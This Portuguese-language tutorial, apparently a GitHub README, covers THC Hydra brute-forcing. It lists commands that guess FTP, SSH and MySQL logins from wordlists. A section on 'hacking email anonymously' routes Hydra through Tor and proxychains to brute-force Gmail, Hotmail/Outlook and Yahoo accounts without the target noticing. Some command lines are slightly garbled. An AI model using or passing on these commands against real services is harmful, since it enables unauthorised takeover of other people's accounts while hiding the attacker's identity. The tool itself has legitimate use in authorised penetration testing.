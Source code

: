 # THC-hydra
O THC Hydra é uma ferramenta que usa dicionário de força bruta para ataques e tentativas de várias combinações de senhas e logins contra um alvo.  Esta ferramenta de hacking também suporta um vasto conjunto de protocolos incluindo Mail (POP3, IMAP, etc.), bancos de dados, LDAP, SMB, VNC e SSH.

Consulte e instale o hydra através do site: http://sectools.org/tool/hydra/
Ou se estiver usando Linux basta instalar usando o comando sudo apt-get install hydra no terminal.


1. Comandos do Hydra

hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ftp
hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ssh
hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 mysql
hydra –l admin -P /tmp/wordlist.txt 192.168.0.101 ftp

Percebe-se que nos três primeiros exemplos acima, tem-se a execução do Hydra para fazer brute force nos serviços de ftp, ssh e mysql. Todavia, nos três exemplos anteriores não se sabe o usuário e nem a senha do serviço que se está atacando. Já no quarto exemplo já se sabe pelo menos o nome do usuário, admin.

2. Como Hackear Email em modo anônimo com o THC Hydra

Quando caro leitor aqui quiser hackear um sistema de email sem ser detectado pelo alvo, é sempre importante ter instalado um TOR no seu sistema. Se você utiliza Linux, dê o seguinte comando para instalar o TOR:

apt-get install tor

Depois disso, deve-se configurar o proxychains colocando as saídas das conexões para a porta 9050 (porta de saída do TOR). Aqui estamos partindo do ponto que o leitor saiba configurar o proxychains.

Após fazer todo o processo de configuração do proxychains, digita-se os seguintes comandos para o anonimato.

Para explorar Gmail
proxychains hydra -l teste@gmail.com -P password.lst -s 465 -S -v -V -t 1 s
smtp.gmail.com

Para explorar Hotmail
proxychains hydra -l teste@hotmail. com/teste@outlook.com -P password.lst -s 587 -S
-v -V -t 1 s smtp.live.com

Para explorar Yahoo
proxychains hydra -l teste@yahoo.com -P password.lst -s 587 -S -v -V -t 1 s
smtp.mail.yahoo.com

* Obs: É importante observar que o parâmetro -P maúsculo serve para que o atacante possa passar algum argumento, que neste caso seria uma lista de senha. Caso o a letra p fosse minúscula, a ferramenta iria gerar e testar bilhões de senhas e isso levaria muito tempo em um Pentest.

O hydra pode ser utilizado no terminal e de modo gráfico quanto no Linux utilizando o comando “sudo apt-get install hydra” quanto em outros sistemas operacionais.


